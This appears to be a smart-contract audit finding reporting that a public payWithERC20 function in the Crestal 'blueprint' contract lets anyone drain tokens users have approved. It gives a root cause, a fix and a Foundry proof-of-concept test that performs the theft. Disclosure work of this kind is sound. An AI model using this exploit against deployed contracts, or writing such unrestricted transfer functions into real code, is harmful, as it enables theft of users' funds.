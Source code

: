 Mini Sangria Dragonfly

High

# Unauthorized Token Drain via payWithERC20 Due to Unrestricted External Calls

### Summary

The `payWithERC20` function in the `blueprint `contract allows an attacker to steal tokens from users who have approved the contract to spend their tokens. Since users need to approve tokens for various functions (e.g., `updateWorkerDeploymentConfig`, `userTopUp`, and `createAgent`), an attacker can exploit this by calling `payWithERC20` before the user revokes their approval, effectively draining their funds.

### Root Cause

1. `payWithERC20` is public, allowing any address to call it arbitrarily.
2. The contract does not restrict who can invoke `payWithERC20`, enabling attackers to transfer tokens from users who have granted approval to themself.
3. The user’s approval remains valid until manually revoked, giving the attacker a window to execute unauthorized transactions.

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32

### Internal Pre-conditions

-

### External Pre-conditions

-

### Attack Path

-

### Impact

**Loss of User Funds:** Attackers can drain approved tokens before users revoke their approval and can even do this multiple times.


### PoC

```solidity
function test_AbilityToStealTokenUsingTheContract() public {
    uint256 validTokenAmount = 100 * 10 ** 18;

    mockToken.mint(address(this), validTokenAmount);
    mockToken.approve(address(blueprint), validTokenAmount);

    address attacker = makeAddr("attacker");
    uint256 allowance = mockToken.allowance(
        address(this),
        address(blueprint)
    );

    vm.prank(attacker);
    blueprint.payWithERC20(
        address(mockToken),
        allowance,
        address(this),
        attacker
    );

    uint balOfAddressThis = mockToken.balanceOf(address(this));
    uint balOfAttacker = mockToken.balanceOf(attacker);

    assertEq(0, balOfAddressThis);
    assertEq(allowance, balOfAttacker);
}
```

### Mitigation

1. **Restrict `payWithERC20 `Access:**
Make `payWithERC20` **internal** so it can only be called by contract functions, preventing external abuse.